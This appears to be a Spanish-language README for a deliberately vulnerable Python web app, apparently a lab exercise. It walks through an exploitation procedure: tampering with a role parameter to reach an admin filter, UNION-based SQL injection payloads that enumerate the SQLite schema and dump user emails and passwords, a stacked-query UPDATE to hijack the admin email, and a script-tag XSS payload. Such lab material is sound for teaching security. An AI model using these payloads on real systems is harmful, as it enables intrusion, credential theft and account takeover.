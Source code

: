 Python version 3.12.3

Install dependencies: pip3 install -r requirements.txt

Run: py app.py

---

# Procedimiento

### 1. Entrar a la ruta /posts y cambiar el query param role por 'admin', lo cual habilita un campo filtro
### 2. Inyectar sql en este campo filtro.

   #### Acá probamos con una sola columna, nos dicen que faltan más y vamos probando con más hasta que encontramos que son 3, ya que cambia de error
   - ' UNION ALL SELECT name FROM sqlite_master WHERE type='table'--
   - ' UNION ALL SELECT name, name as bla FROM sqlite_master WHERE type='table'--
   - ' UNION ALL SELECT name, name as bla, name as ble FROM sqlite_master WHERE type='table'--
   #### Acá nos dice que hay un error que dice que necesitamos un valor entero, entonces vamos probando columna por columna para ver cual es la columna que debe ser un entero
   - ' UNION ALL SELECT name, name as bla, 11 as ble FROM sqlite_master WHERE type='table'--
   - ' UNION ALL SELECT name, 77 as bla, 11 as ble FROM sqlite_master WHERE type='table'--
   - ' UNION ALL SELECT 66, name as bla, 11 as ble FROM sqlite_master WHERE type='table'--

   #### Ahora, teniendo el nombre de la tabla, queremos descubrir los nombres de los campos (users, posts y comments)
   - ' UNION ALL SELECT 20, sql, '-' FROM sqlite_schema where name = 'users' --
   - ' UNION ALL SELECT 20, sql, '-' FROM sqlite_schema where name = 'posts' --
   - ' UNION ALL SELECT 20, sql, '-' FROM sqlite_schema where name = 'comments' --

   #### Con toda la informacion previa, podemos ver la información de las tablas
   - ' UNION ALL SELECT id, id || ' ' || username || ' ' || email || ' ' || role, password FROM 'users' --
   - ' UNION ALL SELECT id, title, content FROM 'posts' --
   - ' UNION ALL SELECT id, content, post_id FROM 'comments' --

   #### En el mismo campo, intentamos buscar la forma de cambiar el mail, pero no nos permite, ya que se ejecuta solo una consulta a la vez
   - s' ; UPDATE users SET email='my_email' WHERE username='admin'; --

   #### Buscamos otros campos donde poder injectar sql. Encontramos que los posts tienen un campo texto, que permite esta injeccion
   - s' ; UPDATE users SET email='`<un_mail>`' WHERE username='admin'; --

### 3. ' UNION ALL SELECT 10 as id, sql AS content, '-' as title from sqlite_schema where name = 'users' --
### 4. Logeado como admin, crear un post con contenido malicioso. Ejemplo de contenido: <script>alert('alerta xss')</script>
